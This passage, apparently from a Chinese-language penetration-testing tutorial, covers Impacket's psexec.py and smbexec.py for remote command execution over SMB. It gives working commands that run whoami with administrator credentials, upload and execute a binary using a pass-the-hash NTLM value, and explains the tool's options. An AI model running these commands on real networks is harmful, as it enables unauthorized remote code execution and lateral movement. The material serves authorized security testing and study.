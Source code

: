 ```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[![](assets/1702372846-ea4e5c8388218a9c91fba5c4afe3f006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122920-909b866a-6bb0-1.png)

**上传文件并执行**

```plain
py -3 psexec.py test/administrator@192.168.40.156 "/c 1+1"  -remote-binary-name test.exe  -codec 936 -path c:\windows\temp\ -c p.exe -hashes :161cff084477fe596a5db81874498a24
```

#### 常用选项

```plain
-port [destination port] 指定目标 SMB 的端口
-codec codec 目标回显的编码，可先执行 chcp.com 拿到回显编码
-service-name service_name 指定创建服务的名称，默认随机
-remote-binary-name remote_binary_name 指定上传文件的名称，默认随机
```

### smbexec.py

可使用密码认证、hash 认证、kerberos 认证。

需要注意此脚本有一些参数是硬编码的，最好使用前修改一下。还可以增加单行命令执行的功能。

[![](assets/1702372846-147b0d3a3feb75f71e39ee15830d3d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122940-9ce681ae-6bb0-1.png)
